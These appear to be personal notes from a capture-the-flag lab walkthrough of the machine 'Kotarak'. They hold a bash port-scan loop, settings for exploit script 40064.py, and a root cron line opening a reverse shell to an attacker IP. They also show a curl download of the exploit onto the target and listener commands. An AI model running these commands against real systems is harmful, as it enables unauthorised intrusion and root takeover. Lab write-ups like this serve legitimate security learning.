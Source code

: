 Port scanning with bash
```bash
for port in $(seq 1 65535); do (echo Hello > /dev/tcp/10.0.3.133/$port && echo "open - $port") 2> /dev/null; done
```

Resulted in: 
![](itisopenon22.png)

Changes to the 40064.py
```python
# Changes
HTTP_LISTEN_IP = '10.10.14.29'
HTTP_LISTEN_PORT = 10000
FTP_HOST = '10.10.14.29'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c \'bash -i >& /dev/tcp/$ip/$port 0>&1\'\n"
```

Kotarak:
```bash
curl http://10.10.14.29/40064.py -o /tmp/40064.py
python2 40064.py
```

```bash
rlwrap ncat -lvnp 10003
python3 -m pyftpdlib -p21 -w
```

Clear the clipboard
```bash
echo -n | xsel -b
echo -n | xclip -in
```

It resulted just recieving index.html in /root and no cron, I fixed the escaping the quotes in the cronjob 
![](removeswgetrc.png)
But is not removing it. The script does not seem to write the cron either. servee_forever is [real](https://docs.python.org/2.7/library/socketserver.html). Tried putting the wgetrc in atanas's home directory
![](wgetrcinatanashome.png)

I watched the video and Ippsec runs it from the box.. also it takes awhile. 

```python
# Changes
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.129.200.66'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c \'bash -i >& /dev/tcp/$ip/$port 0>&1\'\n"
```
